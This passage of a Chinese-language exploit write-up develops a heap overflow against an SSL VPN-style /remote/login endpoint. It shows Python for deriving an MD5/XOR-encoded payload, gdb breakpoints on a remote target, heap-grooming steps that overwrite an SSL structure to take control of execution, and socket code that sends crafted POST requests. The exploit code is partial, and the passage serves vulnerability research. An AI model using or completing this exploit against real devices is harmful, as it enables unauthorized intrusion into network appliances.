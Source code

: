 ```
        #哈希碰撞
        #target_byte = 0xaa  # 期望值，例：0x90
        #offset = 14  # 偏移值，您希望匹配的偏移量
        #调用 hex 函数进行碰撞
        seed=md5hex(salt, target_byte, offset, len(payload))
        print("seed===>",seed)
    else:
        print("未能获取salt值和seed。")
    #把md5字符串碰撞出来
    
    key=md5fun(salt,seed,len(payload))
    print("md5key===>",key.hex())
    afterxor=xorstr(key,payload)
    hex_string = afterxor.hex()
    #print(hex_string)
    print("hex===>",hex2str(hex_string))
```  
  
  
笔者调试断点  
  
```
b *015ADEFE
b *0x015ADF4E
source jemalloc.py 
target remote 192.168.18.123:23
trace-jemalloc

```  
  
## 漏洞利用  
### 稳定溢出写控制执行流  
  
1、如果创建连接，SSL结构体的大小是0x1db8，会分配一个0x2000的堆块给它用，堆块还会分配0x2000的大小存储http请求  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnR1Ivt65QXRZicIhy5iaT73Me3wbEYcpPAuytbocUVoL964cyKPTZPA4GBBJMf9uLTzQ9qYU3SeaXIQ/640?wx_fmt=png&from=appmsg "")  
  
2、如果再次请求，请求内容大于0x2000，会将原本的httprequest的堆块free掉，然后再申请一块大堆块去存储请求  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnR1Ivt65QXRZicIhy5iaT73MesH46Bep8W26SYuLlEQ3dAKGXykxuDVD76LZd31WIkFzt09ibDGOWOwQ/640?wx_fmt=png&from=appmsg "")  
  
3、我们再次请求，通过设置size位为0x2000，把free掉的堆块申请回来，然后越界写ssl结构，最后控制执行流  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gw8FuwXLJnR1Ivt65QXRZicIhy5iaT73MecreAJicaBH5OWI3xgueaRyeueaAiajm3coE5V6lv5ExPCydOCneOSD8g/640?wx_fmt=png&from=appmsg "")  
  
首先我们申请两个正常大小的请求  
  
```
victims = []
for i in range(2):
    victim_ssl_sock = create_ssl_socket()
    content = 'username=1'
    payload = f'''POST /remote/login HTTP/1.1Host: {HOST}:{PORT}Content-Length: {len(content)}User-Agent: Mozilla/5.0Content-Type: text/plain;charset=UTF-8Connection: Keep-AliveAccept: */*{content}'''
    victim_ssl_sock.sendall(payload.encode("utf-8"))
    victims.append(victim_ssl_sock)

```  
  